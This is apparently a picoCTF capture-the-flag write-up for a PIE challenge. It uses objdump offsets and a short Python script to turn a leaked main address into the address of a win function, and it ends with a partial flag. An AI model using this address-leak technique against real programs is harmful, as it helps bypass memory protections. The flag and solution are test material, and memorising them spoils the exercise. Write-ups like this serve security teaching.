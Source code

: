 # Description

Can you try to get the flag? Beware we have PIE!
Connect to the program with netcat:
`$ nc rescued-float.picoctf.net 59193`
The program's source code can be downloaded here. The binary can be downloaded here.

# Solution

`wget https://challenge-files.picoctf.net/c_rescued_float/2736a730340dbe9969fe3104da0cca0c60eddaf1fedb0e220b5df5a3f3cf015f/vuln.c https://challenge-files.picoctf.net/c_rescued_float/2736a730340dbe9969fe3104da0cca0c60eddaf1fedb0e220b5df5a3f3cf015f/vuln`

After connecting with `nc rescued-float.picoctf.net 59193` you will see an output something like this:

```
Address of main: 0x6234ec90433d
Enter the address to jump to, ex => 0x12345: 
```

Of course, you can see this behavior as well through vuln.c without running it, but near the end, you'll need to run it for the address of main.

The address of main will change with each run, so it may be a good idea to run two separate terminals, one for running the script and the other for keeping the netcat connection. Alternatively, you can use some other method of compiling the Python script later on.

To get the offsets you can use objdump on the vuln executable: Either `objdump -D vuln | less` or `objdump -D vuln > data.txt`

Once you have that you can search or grep for win and main:

`00000000000012a7 <win>:`

0x12a7

`000000000000133d <main>:`

0x133d

After you have those values you can write a simple Python script with the offsets:

```
main_address = int(input("Enter the main address: "), 16)
main_offset = 0x133d
win_offset = 0x12a7
win_address = main_address - main_offset + win_offset

print("Win address:", win_address)
```

Once you have this information you can run the netcat in one terminal to get the address of main and then in another terminal use that address in the script. On each iteration, the offsets and address will change. Once you have the win address from the script you can input that into the netcat connection and get the flag.

Flag: `picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_31cc...}`
